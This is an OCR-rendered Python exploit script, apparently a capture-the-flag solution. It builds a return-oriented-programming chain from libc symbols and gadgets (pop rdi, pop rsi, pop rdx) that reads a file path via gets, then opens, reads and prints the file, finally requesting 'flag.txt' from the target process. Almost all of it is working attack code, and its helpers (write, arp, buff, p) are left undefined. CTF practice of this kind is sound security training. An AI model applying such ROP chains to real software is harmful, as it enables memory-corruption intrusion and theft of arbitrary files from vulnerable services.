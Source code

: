 ```python
############ symbol s#######
system = get_sym('system')
opn = get_sym('open')
read = get_sym('read')
puts = get_sym('puts')
gets = get_sym('gets')
printf = get_sym('printf')


############ gadgets ######
pop_rdi = get_gadget('pop rdi; ret')
pop_rsi = get_gadget('pop rsi; ret')
pop_rdx_pop_rbx = get_gadget('pop rdx;pop rbx;ret')
ret = get_gadget('ret')
###############################################################################
###############################################################################


# input('exploit ?')

# ask for the path to flag file
write(pop_rdi, arp); arp +=8
write(buff, arp); arp +=8
write(gets, arp); arp +=8

#open
write(pop_rdi, arp); arp +=8
write(buff, arp); arp +=8
write(pop_rsi, arp); arp +=8
write('0x0000000000000000', arp); arp+=8
write(opn, arp); arp +=8

#read
write(pop_rdi, arp); arp +=8
write('0x0000000000000003', arp); arp+=8
write(pop_rsi, arp); arp +=8
write(buff, arp); arp +=8
write(pop_rdx_pop_rbx, arp); arp +=8
# write(pop_rdx, arp); arp +=8
write('0x0000000000000123', arp); arp+=8
write('0x0000000000000003', arp); arp+=8
write(read, arp); arp +=8

#puts
write(pop_rdi, arp); arp +=8
write(buff, arp); arp +=8
write(puts, arp); arp +=8

write(pop_rdi, arp); arp +=8
write(buff, arp); arp +=8
write(puts, arp); arp +=8

p.sendline(b'end of letter')
print(p.recvline())
p.sendline(b'flag.txt')

print(p.recvline())
print(p.recvline())
print(p.recvline())
print(p.recvline())
```


